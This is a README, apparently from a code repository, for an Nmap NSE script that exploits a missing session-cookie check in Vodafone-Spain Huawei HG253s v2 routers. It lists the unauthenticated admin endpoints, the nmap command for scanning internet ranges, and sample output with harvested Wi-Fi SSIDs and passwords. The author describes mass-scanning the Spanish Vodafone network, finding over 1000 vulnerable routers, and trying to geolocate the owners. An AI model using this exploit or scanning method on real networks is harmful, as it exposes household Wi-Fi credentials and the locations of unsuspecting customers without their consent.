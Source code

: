 # http-enum-vodafone-hua253s.nse

### Introduction

Vodafone-Spain is starting to rent a new Huawei HG253v2 router to the spanish costumers. This new router is coming with a new firmware version.

### The pre-scholar bug

![Logo](img/prescholar.gif)

I found a new simple security bug in that new firmware version. It is so easy to see it that I named it "the Pre-scholar bug". Basically, it is not validating the session cookie in some administration webpages:

 - http://\<IP\>/html_253s/api/ntwk/WlanBasic
 - http://\<IP\>/html_253s/api/system/diagnose_internet
 - http://\<IP\>/html_253s/api/system/hostinfo?type=ethhost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=guesthost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=homehost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=wifihost
 - http://\<IP\>/html_253s/api/system/wizardcfg

So, It is possible to get direct information from those urls in any router open to internet.

### About the NSE script

This is a Nmap NSE script to search Vodafone-Spain Huawei 253s_v2 router with the port 80/tcp and/or 443/tcp open to Internet (via this new bug).

The script will try to get the SSID, BSSID, key-type and Password of the wifi network interface.

It was tested with:

  - HW: AV1HG253SBZDM
  - Firmware: V100R001C205B038SP0x (being x a number)

Command line and result:

```
nmap -sS -p80,443 -script http-enum-vodafone-hua253s.nse x.x.x.*

Nmap scan report for xxxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.089s latency).
PORT    STATE    SERVICE
80/tcp  filtered http
443/tcp filtered https

Nmap scan report for xxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.091s latency).
PORT    STATE SERVICE
80/tcp  open  http
|_http-enum-vodafone-hua253s:   SSID: vodafone851X (c4:07:2f:89:xx:xx)   Pass(AES): FSLJLMZFC3W9XX
443/tcp open  https
|_http-enum-vodafone-hua253s:   SSID: vodafone851X (c4:07:2f:89:xx:xx)   Pass(AES): FSLJLMZFC3W9XX

Nmap scan report for xxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.089s latency).
PORT    STATE    SERVICE
80/tcp  filtered http
443/tcp filtered https

```

### Scope

I have checked the Spanish Vodafone network trying to guess what the real scope is and I found >1000 routers with the "correct" brand, open port to internet and the bug working.

### Experiments

After speaking to a friend of mine, I was trying to geolocate this routers using Google geolocate API and the found BSSID. But it was not possible. The spanish BSSID (MAC address) database by google seems very poor. All my tries got a "Not found" answer :,(
Using other IP location services was worse. They are completely inaccurate.

### Notes

 - Sorry for my ugly English.
 - Oldschool is alive.
